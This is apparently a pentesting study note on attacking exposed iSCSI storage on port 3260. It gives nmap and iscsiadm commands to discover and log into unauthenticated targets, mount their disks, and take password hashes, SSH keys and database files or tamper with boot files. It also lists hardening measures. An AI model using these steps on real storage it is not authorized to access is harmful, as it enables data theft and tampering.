

# 69 - iSCSI (Port 3260) Pentesting

## 1. Executive Summary

iSCSI carries SCSI commands over TCP/IP — a **SAN** protocol that gives clients (**initiators**) the illusion of locally-attached disks served by remote storage (**targets**), default **TCP 3260**. The attack: many targets allow **discovery and connection without CHAP authentication**, so you can enumerate exposed **LUNs**, **mount** them, and read/write **raw block storage** — full filesystems containing VM disks, databases, and backups. Block-level access bypasses OS file permissions entirely.

## 2. Protocol Overview & Architecture

An initiator runs `discovery` (SendTargets) against the portal to learn target **IQNs**, then logs in to a target and the kernel presents its LUNs as `/dev/sdX`. Access control is optional **CHAP** (and ACLs by initiator IQN); when absent, anyone can connect. Note: behind NAT/virtual-IP, discovery may register the target's *internal* address, breaking login — you fix the node's `default` file `node.conn[0].address` to the reachable IP.

## 3. Enumeration & Footprinting

```bash
nmap -sV --script=iscsi-info -p 3260 <IP>     # lists targets (IQNs) + whether auth required

# Discover targets
iscsiadm -m discovery -t sendtargets -p <IP>:3260
```

## 4. Exploitation Deep Dive

### 4.1 Target Discovery & NAT Fix
If `iscsiadm` registers an internal IP (NAT), repoint it:
```bash
sed -i 's/<internal-ip>/<public-ip>/g' \
  /etc/iscsi/nodes/<iqn>/<public-ip>,3260,1/default
```

### 4.2 Login & Mount the LUN
```bash
iscsiadm -m node --targetname <iqn> -p <IP>:3260 --login
lsblk                                  # new /dev/sdX appears
sudo mount /dev/sdX1 /mnt/iscsi        # or activate LVM if present
```
Now read/write the raw filesystem — VM images, DB files, backups — ignoring OS-level ACLs.

### 4.3 Offline Data / Credential Theft
Mounted disks → pull `/etc/shadow`, SAM hives, KeePass/DB files, SSH keys; or modify boot files for persistence.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Block-level access to whole filesystems (VMs, DBs, backups) — bypasses file ACLs.
- Harvest hashes/keys/secrets offline; tamper with stored systems.

## 7. Defense & Hardening
1. Require **mutual CHAP** auth; restrict by initiator IQN ACLs.
2. Isolate the storage network (dedicated VLAN); firewall 3260; never internet-facing.
3. Encrypt data at rest; use IPsec for iSCSI transport.
4. Monitor unexpected discovery/login attempts.

## 8. Chaining Opportunities
- Mounted disks → **[[08 - Linux Privilege Escalation]]**, AD hive theft (Active Directory).
- Storage-protocol siblings: **[[68 - NDMP (Port 10000) Pentesting]]**, **[[25 - NFS (Port 2049) Pentesting]]**.

## 9. Related Notes
- [[70 - GlusterFS (Ports 24007-49152) Pentesting]]

## 10. Tools
`nmap` iscsi-info, `iscsiadm` (open-iscsi), `lsblk`/`mount`.
